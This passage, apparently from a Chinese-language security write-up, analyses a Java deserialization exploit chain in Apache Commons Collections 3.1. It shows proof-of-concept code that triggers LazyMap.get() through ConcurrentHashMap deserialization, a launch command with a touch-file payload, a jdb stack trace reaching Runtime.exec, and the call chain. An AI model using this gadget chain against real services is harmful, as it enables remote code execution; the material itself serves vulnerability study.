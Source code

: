 ```java
         */
        ByteArrayOutputStream
                        bos         = new ByteArrayOutputStream();
        ObjectOutputStream
                        oos         = new ObjectOutputStream( bos );
        oos.writeObject( chm );
        ByteArrayInputStream
                        bis         = new ByteArrayInputStream( bos.toByteArray() );
        ObjectInputStream
                        ois         = new ObjectInputStream( bis );
        /*
         * 通过反序列化ConcurrentHashMap触发LazyMap.get()
         */
        ois.readObject();
    }
}
```

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
ConcurrentHashMapExec "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.LazyMap.get (LazyMap.java:151), pc = 18
  [9] org.apache.commons.collections.keyvalue.TiedMapEntry.getValue (TiedMapEntry.java:73), pc = 8
  [10] org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode (TiedMapEntry.java:120), pc = 1
  [11] java.util.concurrent.ConcurrentHashMap.readObject (ConcurrentHashMap.java:1,447), pc = 42
  [12] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [13] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [14] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [15] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [16] java.io.ObjectStreamClass.invokeReadObject (ObjectStreamClass.java:1,170), pc = 24
  [17] java.io.ObjectInputStream.readSerialData (ObjectInputStream.java:2,177), pc = 119
  [18] java.io.ObjectInputStream.readOrdinaryObject (ObjectInputStream.java:2,068), pc = 183
  [19] java.io.ObjectInputStream.readObject0 (ObjectInputStream.java:1,572), pc = 401
  [20] java.io.ObjectInputStream.readObject (ObjectInputStream.java:430), pc = 19
  [21] ConcurrentHashMapExec.main (ConcurrentHashMapExec.java:139), pc = 336

8.4.3) 简化版调用关系

--------------------------------------------------------------------------
ObjectInputStream.readObject
  ConcurrentHashMap.readObject
    TiedMapEntry.hashCode   // 此处开始TiedMapEntry利用链
      TiedMapEntry.getValue
        LazyMap.get         // 此处开始LazyMap利用链
--------------------------------------------------------------------------

